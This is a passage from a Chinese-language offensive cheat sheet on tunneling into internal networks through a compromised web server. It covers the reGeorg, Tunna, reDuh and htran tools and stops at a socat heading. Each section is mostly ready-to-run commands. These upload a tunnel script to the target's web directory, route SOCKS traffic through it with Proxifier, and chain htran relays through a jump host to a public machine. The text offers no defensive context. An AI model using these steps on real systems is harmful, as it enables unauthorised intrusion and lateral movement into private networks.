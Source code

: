 reGeorg

* * *

服务端：上传脚本到Web目录，服务器要求打开 enable_dl 功能

同时安装 php_sockets扩展客户端：

```
reGeorgSocksProxy.py -p 本地端口 -u http://目标服务器上的脚本
```

使用Proxifier将需要的流量引入本地端口sock5模式

有脚本可以指定不使用sock5协议

Tunna

* * *

```
`靶机：上传脚本到Web目录，PHP就不要用了，及其不稳定``攻击机：proxy.py -u http://脚本地址 -l 本地端口 -r 目标端口（服务器） -v`
```

使用Proxifier将需要的流量引入本地端口sock5模式

使用 -n 参数关闭sock协议

![图片](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicgWPO5q8XeTJscEcib64bbt1GN3s6WbYMANc5kmfQNFlrjKiaibQicehiampyuKCxzWicBfnLRbd3P7yJw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

这个False问题不大

不能用linux的rdesktop连接，要用Windows的远程桌面连接

![图片](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicgWPO5q8XeTJscEcib64bbtAH3BicNpF2BoSsPCJ3L6icolgHYgTEyHKoALV4sHJeQReHkTlwfqCBXA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

这种情况问题也不大

点击是之前再运行一次脚本就行  

reDuh

* * *

服务端：上传脚本到Web目录

客户端：java -jar reDuhClient.jar http://脚本位置 进行连接

本地连接java返回的本地端口 nc -vv localhost 本地端口

在命令提示符中输入 [createTunnel]本地空闲端口：目标地址（想要访问的目标内网地址）：目 标端口

htran

* * *

服务器（目标主机）：htran -slave 跳板IP 跳板port 本地ip 本地端口

跳板机：htran -tran 跳板port 公网IP 公网端口

客户端（公网主机）：htran -listen 公网监听端口 流量接收端口

socat

